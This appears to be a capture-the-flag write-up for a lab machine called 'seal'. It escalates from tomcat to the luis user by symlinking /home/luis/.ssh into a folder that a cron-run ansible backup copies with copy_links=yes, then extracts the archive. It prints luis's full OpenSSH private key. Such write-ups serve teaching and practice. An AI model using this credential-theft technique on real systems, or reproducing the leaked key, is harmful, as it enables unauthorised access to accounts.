 # Privilege escalation to `luis` user
## Discovered `run.yml` file using `pspy64`
Discovered `run.yml` being executed as argument to `/usr/bin/ansible-playbook` and `/usr/bin/ansible-playbook` is executed as `luis` user. 
![[Pasted image 20210928111324.png]]
## Discovered backup files in /opt/backups/archives directory seeing contents of run.yml file
Discovered backup files in /opt/backups/archives directory seeing contents of run.yml file.
```bash
tomcat@seal:/opt/backups/playbook$ cat run.yml
cat run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
tomcat@seal:/opt/backups/playbook$ ls ../archives
ls ../archives
backup-2021-09-28-06:10:33.gz  backup-2021-09-28-06:13:33.gz
backup-2021-09-28-06:11:33.gz  backup-2021-09-28-06:14:33.gz
backup-2021-09-28-06:12:33.gz
tomcat@seal:/opt/backups/playbook$
```
## Seeing contents of /opt/backups/archives it is observerd that backups in .gz are made after every minute , so cronjob is scheduled to run every minute to make backups of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` directory every minute
Seeing contents of /opt/backups/archives it is observerd that backups in .gz are made after every minute , so cronjob is scheduled to run every minute to make backups of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` directory using some cronjob.
As it is evident from pspy64 program.
![[Pasted image 20210928112316.png]]
## Seeing contents of run.yml reveals that `copy_links=yes` is there which means that when content is copied from `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` , it also copies files/directories  that are linked with these directories like if `/home/luis/.ssh` is linked with  `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`etc.
Seeing contents of run.yml reveals that `copy_links=yes` is there which means that when content is copied from `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` , it also copies files/directories  that are linked with these directories like if `/home/luis/.ssh` is linked with  `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`etc.
![[Pasted image 20210928112811.png]]
Note that `var/lib/tomcat9/webapps/ROOT/admin/dashboard` also contains `uploads` folder with in it.
![[Pasted image 20210928113002.png]]
## Linking `/home/luis/.ssh` with `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`
Linking `/home/luis/.ssh` with `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` , so that when ` /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml` command is run and contents of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` are backed up in `.gz` format in `/opt/backups/archives`, files/directories linked with `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` are also copied using command `ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`.
![[Pasted image 20210928113657.png]]
## Now waiting for cronjob to run so that we can grab private key of luis user found in `.gz`  backup file in `/opt/backups/archives`
![[Pasted image 20210928113940.png]]
## Copying `.gz` backup file to /tmp directory to extract its contents
![[Pasted image 20210928114041.png]]
## Grabbing id_rsa public key of luis user after extracting it `.gz` backup file contents
```bash
tomcat@seal:/opt/backups/archives$ cd /tmp
cd /tmp
tomcat@seal:/tmp$ ls
ls
backup-2021-09-28-06:37:33.gz  hsperfdata_tomcat  pspy64
tomcat@seal:/tmp$ gzip -d backup-2021-09-28-06:37:33.gz
gzip -d backup-2021-09-28-06:37:33.gz
tomcat@seal:/tmp$ ls
ls
backup-2021-09-28-06:37:33  hsperfdata_tomcat  pspy64
tomcat@seal:/tmp$ mv backup-2021-09-28-06:37:33  backup
mv backup-2021-09-28-06:37:33  backup
tomcat@seal:/tmp$ ls
ls
backup  hsperfdata_tomcat  pspy64
tomcat@seal:/tmp$ tar -xvf backup
tar -xvf backup
dashboard/
dashboard/scripts/
dashboard/images/
dashboard/css/
dashboard/uploads/
dashboard/bootstrap/
dashboard/index.html
dashboard/scripts/flot/
dashboard/scripts/datatables/
dashboard/scripts/jquery-ui-1.10.1.custom.min.js
dashboard/scripts/common.js
dashboard/scripts/jquery-1.9.1.min.js
dashboard/scripts/flot/jquery.flot.resize.js
dashboard/scripts/flot/jquery.flot.pie.js
dashboard/scripts/flot/jquery.flot.js
dashboard/scripts/datatables/jquery.dataTables.js
dashboard/images/jquery-ui/
dashboard/images/icons/
dashboard/images/img.jpg
dashboard/images/user.png
dashboard/images/bg.png
dashboard/images/jquery-ui/picker.png
dashboard/images/icons/css/
dashboard/images/icons/font/
dashboard/images/icons/css/font-awesome.css
dashboard/images/icons/font/fontawesome-webfont3294.ttf
dashboard/images/icons/font/fontawesome-webfontd41d.eot
dashboard/images/icons/font/fontawesome-webfont3294.eot
dashboard/images/icons/font/fontawesome-webfont3294.woff
dashboard/css/theme.css
dashboard/uploads/.ssh/
dashboard/uploads/.ssh/id_rsa
dashboard/uploads/.ssh/id_rsa.pub
dashboard/uploads/.ssh/authorized_keys
dashboard/bootstrap/css/
dashboard/bootstrap/js/
dashboard/bootstrap/img/
dashboard/bootstrap/css/bootstrap-responsive.min.css
dashboard/bootstrap/css/bootstrap.min.css
dashboard/bootstrap/js/bootstrap.min.js
dashboard/bootstrap/img/glyphicons-halflings.png
dashboard/bootstrap/img/glyphicons-halflings-white.png
tomcat@seal:/tmp$
```
![[Pasted image 20210928114558.png]]
## id_rsa private key of `luis` user 
```bash
tomcat@seal:/tmp/dashboard/uploads/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
tomcat@seal:/tmp/dashboard/uploads/.ssh$
```


